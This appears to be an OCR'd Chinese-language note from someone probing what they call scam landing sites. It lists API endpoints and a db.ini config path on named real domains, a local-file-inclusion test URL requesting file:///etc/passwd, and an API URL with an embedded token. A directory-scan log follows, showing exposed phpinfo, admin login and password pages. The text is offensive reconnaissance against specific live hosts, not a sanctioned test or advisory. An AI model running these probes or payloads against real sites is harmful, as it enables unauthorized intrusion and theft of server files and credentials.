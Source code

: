 
下面出现的那些 api 要仔细排查下，或许是突破口
http://www.clxk.com.cn/group
http://www.clxk.com.cn/custom/db.ini
http://www.clxk.com.cn/api
http://wz5.tkc8.com/manage/api/check?token=81b5d6225dec44943f641305d711d052&url=
域名检测


又是傻逼落地站，骗子死全家，这里可能有文件包含
https://ffff324.kuaizhan.com/?url=/luodi/youzanyangnk/wangyi.php
https://ffff324.kuaizhan.com/?url=file:///etc/passwd
```
FILE: /www/wwwroot/h5.cn/Application/Home/Controller/TextController.class.php 　LINE: 18


[18:05:56] 200 -   23KB - /0
[18:06:03] 302 -   28KB - /adminc.php  ->  /adminc.php?c=auth&a=login
[18:06:05] 301 -  178B  - /api  ->  http://www.clxk.com.cn/api/
[18:06:06] 200 -   66KB - /api/
[18:06:06] 301 -  178B  - /assets  ->  http://www.clxk.com.cn/assets/
[18:06:06] 301 -  178B  - /auth  ->  http://www.clxk.com.cn/auth/
[18:06:06] 403 -  564B  - /auth/
[18:06:06] 200 -    2KB - /auth/login
[18:06:06] 200 -    2KB - /auth/login.html
[18:06:08] 301 -  178B  - /buy  ->  http://www.clxk.com.cn/buy/
[18:06:10] 301 -  178B  - /common  ->  http://www.clxk.com.cn/common/
[18:06:11] 401 -   97B  - /custom/db.ini
[18:06:14] 200 -   17KB - /favicon.ico
[18:06:16] 200 -  134B  - /group
[18:06:16] 200 -   23KB - /home
[18:06:16] 200 -   23KB - /Home
[18:06:16] 200 -   23KB - /home.php
[18:06:16] 200 -   23KB - /home.tar
[18:06:16] 200 -   23KB - /home.rar
[18:06:16] 200 -   23KB - /home.zip
[18:06:16] 200 -   23KB - /home.html
[18:06:17] 301 -  178B  - /img  ->  http://www.clxk.com.cn/img/
[18:06:17] 301 -  178B  - /index  ->  http://www.clxk.com.cn/index/
[18:06:17] 200 -   23KB - /index.php
[18:06:17] 200 -   23KB - /Index
[18:06:17] 200 -  985B  - /index.html
[18:06:19] 301 -  178B  - /json  ->  http://www.clxk.com.cn/json/
[18:06:20] 301 -  178B  - /m  ->  http://www.clxk.com.cn/m/
[18:06:24] 401 -   97B  - /page
[18:06:24] 200 -  631B  - /password.html
[18:06:25] 200 -   63KB - /phpinfo.php
[18:06:27] 200 -    5KB - /Public/
[18:06:30] 200 -  112B  - /stat/
[18:06:31] 301 -  178B  - /t  ->  http://www.clxk.com.cn/t/
[18:06:32] 200 -    2KB - /text
[18:06:34] 200 -   77B  - /user/login/
[18:06:34] 301 -  178B  - /v  ->  http://www.clxk.com.cn/v/
```
